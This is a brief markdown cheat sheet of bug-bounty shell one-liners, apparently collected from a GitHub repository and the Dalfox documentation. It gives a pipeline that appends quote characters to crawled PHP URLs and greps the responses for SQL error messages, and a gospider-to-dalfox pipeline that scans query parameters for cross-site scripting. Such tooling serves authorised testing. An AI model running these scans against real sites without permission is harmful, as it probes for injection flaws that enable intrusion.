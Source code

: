 - https://github.com/twseptian/oneliner-bugbounty
- https://dalfox.hahwul.com/docs/tips/oneliner/

## sqli

```
cat katana_output_1.txt | grep ".php" | sed 's/\.php.*/.php\//' | sort -u | sed s/$/%27%22%60/ | while read url do ; do curl --silent "$url" | grep -qs "You have an error in your SQL syntax" && echo -e "$url \e[1;32mSQLI by Ibrahim\e[0m" || echo -e "$url \e[1;31mNot Vulnerable to SQLI Injection\e[0m" ;done | grep "Ibrahim"
```

## xss

```
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```
